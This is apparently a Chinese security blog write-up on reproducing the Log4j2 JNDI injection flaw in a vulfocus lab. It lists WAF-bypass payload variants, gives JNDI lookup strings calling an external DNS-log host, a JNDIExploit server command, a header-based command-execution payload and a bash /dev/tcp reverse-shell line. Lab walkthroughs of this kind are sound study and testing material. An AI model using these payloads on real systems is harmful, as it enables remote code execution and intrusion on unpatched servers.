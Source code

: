 ### 0x01 waf绕过原理
上一篇漏洞复现中讲了下漏洞原理，这篇靶场复现在复现前先讲一下waf绕过原理，首先说明下2.15.0-rc1开始，默认关闭了Lookups功能，需要修改配置才能结合各种绕过方式，所以意义不大，2.16.0开始，移除了Lookups功能，然后在受影响版本2.0-beta9 <= 版本 <= 2.14.1中，由于waf多拦截jndi等关键字，可通过如下几种方式进行绕过  
```
:- 是一个赋值关键字，如果程序处理到 ${aaaa:-bbbb} 这样的字符串，处理的结果将会是 bbbb，借助此特性，可构造如下waf绕过
logg.info("${${::-J}ndi:ldap://127.0.0.1:1389/Calc}");


Lookups中除了jndi还存在Upper、Lower等方式，可变换大小写，可构造如下waf绕过
logg.info("${${lower:J}ndi:ldap://127.0.0.1:1389/Calc}");
logg.info("${${upper:j}ndi:ldap://127.0.0.1:1389/Calc}");


同时也可以利用一些特殊字符的大小写转化的问题
ı => upper => i (Java 中测试可行)
ſ => upper => S (Java 中测试可行)
İ => upper => i (Java 中测试不可行)
K => upper => k (Java 中测试不可行)
logg.error("${jnd${upper:ı}:ldap://127.0.0.1:1389/Calc}");


现在数据传输很多都是 json 形式，所以在 json 中我们也可以进行尝试
像 Jackson 和 fastjson 又有 unicode 和 hex 的编码特性，所以就可以尝试编码绕过
{"key":"\u0024\u007b"}
{"key":"\x24\u007b"}
```

### 0x02 靶场复现
想参照这篇文章复现一下log4j2反弹shell  
https://blog.csdn.net/m0_56773673/article/details/122300927

本想使用vulfocus的在线靶场（vulfocus/log4j2-rce-2021-12-09:1），结果环境启动后，payload打一下，环境崩一下，好不容易环境不崩了，payload放到get请求里，返回400，payload放到post请求里，返回405，心好累，还是参照复现文章中的环境自己搭吧  
参见：https://blog.csdn.net/weixin_47019868/article/details/122010972

使用kali系统，apt update发现非常慢，先更新下源  
参见：https://blog.csdn.net/qq_33331244/article/details/114656949

docker pull vulfocus/log4j2-rce-2021-12-09的时候非常慢，等了好半天都不行，突然想到，是不是docker镜像源的问题，修改镜像源后，不到1分钟就pull完成  
修改镜像源参见：https://blog.csdn.net/qq_29924795/article/details/104483435

本地搭建完环境，发现环境和在线靶场一样，并不是文章中的环境，难道docker镜像升级了，我靠。。

环境就这样了，还是想想payload怎么打吧，payload放入get请求中返回400，payload放入post请求中返回405，还是不行啊，查阅下vulfocus这个靶场别人怎么打的，突然发现，payload是放入get请求中，但需要url编码下，我怎么忘记url编码了，大脑好迟钝  
参见：https://blog.csdn.net/weixin_45632448/article/details/124149561

赶紧改成url编码的形式测试一下，结果还是不行，测了几次，都是不行，突然想到，是不是本地的docker镜像不出网啊，进入docker镜像内，发现各种命令都被阉割了，心再次好累。。

还是用在线靶场试一下吧，如果在线靶场可以，那应该就是本地docker镜像不出网，启动在线靶场，打了一下，dns平台收到请求了，天啦撸，终于行啦
![image](./image/01.png)

折腾了一圈，最后用的还是在线靶场。。。不过还好，这过程也学到不少

经测试，如下三种形式payload都可以
```
${jndi:ldap://de63d35d.dns.1433.eu.org/ttt}
${jndi:ldap://de63d35d.dns.1433.eu.org/}
${jndi:ldap://de63d35d.dns.1433.eu.org}
```

下面尝试执行命令，服务端执行
```
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 0.0.0.0 -l 1389 -p 3456
```
其中JNDIExploit-1.2-SNAPSHOT.jar是魔改过的（也可以使用：[https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)）

payload处执行如下（这是一个有回显的payload）
```
${jndi:ldap://0.0.0.0:1389/TomcatBypass/TomcatEcho}
```
并添加一个http头
```
WWW-Authenticate: whoami
```
可以看到成功执行了命令  
![image](./image/02.png)

尝试反弹shell
```
WWW-Authenticate: bash -c 'exec bash -i & >/dev/tcp/0.0.0.0/1234 <&1'
```
可以看到，成功反弹了shell
![image](./image/03.png)

有精力还可以看一下如下2篇log4j2的靶场和漏洞复现：  
https://buaq.net/go-111996.html  
https://www.cnblogs.com/CHOSEN1-Z13/p/16001961.html  

使用工具JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar会更好用（https://github.com/welk1n/JNDI-Injection-Exploit）
参见这篇博客：https://www.cnblogs.com/CHOSEN1-Z13/p/16001961.html

### 参考链接
https://www.freebuf.com/articles/web/341857.html  
https://www.freebuf.com/articles/web/344076.html  
https://nosec.org/home/detail/4920.html  